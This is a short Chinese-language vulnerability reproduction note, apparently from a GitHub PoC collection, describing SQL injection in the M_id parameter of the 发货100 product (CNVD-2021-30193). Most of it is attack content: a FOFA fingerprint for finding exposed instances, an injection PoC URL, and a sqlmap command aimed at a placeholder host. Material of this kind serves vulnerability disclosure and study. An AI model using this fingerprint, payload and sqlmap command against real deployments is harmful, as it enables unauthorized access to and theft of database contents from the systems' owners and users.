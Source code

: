 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
发货100
```

## FOFA

```
icon_hash="1420424513"
```

## 漏洞复现

主页面如下

![](./images/202202170900267.png)

使用POC

```plain
/?M_id=1%27&type=product
```

![](./images/202202170900051.png)

数据库出现报错, 使用Sqlmap注入

```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![](./images/202202170900124.png)